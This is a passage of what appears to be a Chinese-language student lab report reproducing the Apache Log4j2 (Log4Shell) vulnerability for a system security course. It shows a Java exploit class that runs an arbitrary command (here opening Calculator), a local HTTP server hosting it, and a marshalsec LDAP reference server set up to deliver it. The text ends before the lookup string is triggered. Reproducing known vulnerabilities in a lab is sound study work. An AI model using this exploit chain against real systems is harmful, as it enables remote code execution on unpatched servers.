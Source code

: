 ```yaml
---
counter: True
comment: True
---
```


# Apache Log4j2 漏洞触发

!!! abstract
    系统安全 lab1 实验报告，实验与网络空间安全导论课程报告选题重合，大部分参考 [log4j 漏洞复现](/sec/vulns/log4j/)

    !!! warning "仅供学习参考，请勿抄袭"

## 实验目标

- 理解 Apache Log4j2 漏洞的原理，掌握 Log4j2 漏洞的触发
- 加深对软件供应链安全的理解

## 实验过程

由于本人在大一春夏学期的网络空间安全导论课上选择了 log4j 漏洞复现与分析作为课程报告，所以本实验有很多参考了当时本人的报告内容。当时的报告可见：<https://note.tonycrane.cc/sec/vulns/log4j/>。

### Task 1：本地触发

首先构建 Exploit 脚本，只需要通过 java.lang.Runtime.getRuntime().exec(cmds).waitFor(); 执行任意命令即可，由于我是 macOS 环境，所以需要通过 open /System/Applications/Calculator.app 来打开计算器：

```java
public class Exploit {
    static {
        System.out.println("Executing exploit!");
        System.out.println("Attack!");
        try {
            String[] cmds = {"open", "/System/Applications/Calculator.app"};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

接下来在同一目录中通过 python -m http.server 8100 来开启一个 HTTP 服务，可以通过 curl -I 127.0.0.1:8100/Exploit.class 来验证是否可以访问到该文件。

然后需要在本地起一个 LDAP 服务，可以通过 marshalsec 项目来进行搭建：

```shell
git clone https://github.com/mbechler/marshalsec.git
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```
